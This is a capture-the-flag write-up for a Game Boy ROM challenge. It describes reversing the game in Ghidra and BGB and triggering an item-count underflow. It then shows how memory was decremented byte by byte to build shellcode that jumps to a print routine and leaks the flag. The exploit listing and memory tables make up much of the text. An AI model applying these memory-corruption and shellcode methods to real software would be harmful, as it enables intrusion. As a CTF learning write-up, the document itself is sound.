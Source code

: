 # AndroNotes

> Come take a break playing this little game...

We get a telnet and a gameboy ROM.

### Part 0 - checking out the game

I's a quite simple game where you can move and shoot enemy, which also tries to shoot at you.
Each enemy killed gains you current `score` amount of `gold`. You can also open shop and buy items for gold.

### Part 1 - reversing

We used [BGB](https://bgb.bircd.org) for dynamic analysis together with Ghidra for static analysis. I've attached our exported ghidra DB.
You need [GhidraBoy](https://github.com/Gekkio/GhidraBoy) plugin to open it tho.

A placeholder flag string is inside the ROM, but is unused. We didn't think that the bug would be in movement function,
so we mostly looked into shop part of the game while reversing.

By setting item counts in debugger to 0xFF we noticed that entire menu is glitched. We can move cursor outside of the 15 item range.
While reversing this behaviour in depth with ghidra the code looked extremly suspicious. Almost as if this bug was made on purpose.

After some time we found how to trigger this bug. You can:

- buy item
- open use menu
- select that you want to throw 1 item
- use the item (which decrements count from 1 to 0)
- throw the item (which decrements count from 0 to 255)

thus you end up with negative amount of an item.

### Part 2 - pwn

Long story short:

- we setup our score to be exactly 0xc3ca, which points into `item_use_ptrs`

```
c3bf 87 57    addr    use_item_0
c3c1 02 58    addr    use_item_1
c3c3 81 58    addr    use_item_2
c3c5 00 59    addr    use_item_3
c3c7 7f 59    addr    use_item_4
c3c9 fe 59    addr    use_item_5   <= we point at byte 59 here
c3cb 7d 5a    addr    use_item_6
c3cd fc 5a    addr    use_item_7
c3cf 7b 5b    addr    use_item_8
c3d1 fa 5b    addr    use_item_9
c3d3 79 5c    addr    use_item_10
c3d5 51 56    addr    use_item_11
c3d7 ad 56    addr    use_item_12
c3d9 f2 56    addr    use_item_13
c3db 3a 57    addr    use_item_14

# gold
c3dd ?? ??    int16_t ??

# flag
6d82          ds      "INS(PLACEHOLDER!!!)"
```

- we prepare our gold for next steps to end with exactly E9, which will be `JMP (HL)` opcode
- we setup our shellcode at 0xc3ca by moving cursor to our shellcode and tossing X amount of items
by doing that we can decrement any positive value (that is <= 0x7F), we can't point our cursor at negative values (or 0).
- call our shellcode by using item

So here's how our shellcode worked without garbage opcodes:

```
LD E, 0x82
LD D, 0x6d
LD HL, 0x5711

# after jump
PUSH    DE
CALL    printf
```

But to make it work with bytes we had at hand and mechanic of only decrementing positive numbers we created:

```
0x59 => toss 27 => 0x3e    # LD A, imm
0x7d => toss 54 => 0x47    # load (lower bytes of flag string pointer shifted right by 1 byte) into A
                           # we do this because flag add ends with 0x82 which is negative

0x5a => toss 44 => 0x2e    # LD L, imm
0xfc =>         => 0xfc    # this operation is just a workaround for not being able to touch 0xfc

0x5a => toss 83 => 0x07    # RLC A
                           # shift A left (to fix the pointer to the flag)

0x7b => toss 28 => 0x5f    # LD E, A
                           # move lower bytes of flag pointer into E

0x5b => toss 29 => 0x3e    # LD A, 0xFA
0xfa =>         => 0xfa    # this operation is just a workaround for not being able to touch 0xfa

0x5b => toss 69 => 0x16    # LD D, imm
0x79 => toss 12 => 0x6d    # move higher bytes of flag pointer into D

0x5c => toss  1 => 0x5b    # LD E, E
                           # NOP

0x51 => toss  2 => 0x4f    # LD C, A
                           # NOP

0x56 => toss  4 => 0x52    # LD D, D
                           # NOP

0xad =>         => 0xad    # XOR L
                           # NOP

0x56 => toss  4 => 0x52    # LD D, C
                           # NOP

0xf2 =>         => 0xf2    # LD A, (C)
                           # NOP

0x56 => toss 53 => 0x21    # LD HL, 0x5711
0x31 => toss 41 => 0x11    # load address where push DE, call printf exists
0x57 =>         => 0x57    # into HL

gold =>         => 0xe9    # JMP (HL)
```

Since we're priting where our score was placed we can only print 3 characters as the rest is printed outside of visible screen.
So we created our shellcode to not crash the game and we have easily movable string pointer at the beginning of the shellcode.
So we used 0x47 to print 3 last characters, then decremented the value to 0x46 to move pointer to print previous characters and so on till 0x41.

*Note: actually 0x41 prints 6 characters, since it overflows text and starts overwriting on the left side as well.*

Flag leaks:

```
0x41: INS(           !!!)
0x43:     H4C
0x44        CKB
0x45          B0Y
0x46            Y'1
0x47              101

Flag: INS(H4CKB0Y'101!!!)
```
